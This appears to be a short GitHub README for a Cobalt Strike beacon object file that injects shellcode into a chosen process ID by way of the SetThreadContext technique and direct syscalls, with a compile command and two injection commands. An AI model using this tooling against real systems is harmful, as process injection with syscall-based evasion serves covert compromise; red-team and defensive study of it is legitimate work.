 # Direct Syscall SetThreadContext Inject 

This is based on XPN's SetThreadContext technique as a beacon object file and using direct syscalls.

# Compile
`x86_64-w64-mingw32-gcc -c syscall_stcinject.c -o syscall_stcinject.o -masm=intel`

# Usage

NOTE: Currently only for x64

Load the CNA script in Cobalt Strike, then the following command will be included:

`syscall_stc_inject PID Listener` - Inject shellcode created for listener to target PID

`syscall_stc_shinject PID /path/to/payload.bin` - Inject payload.bin file to target PID
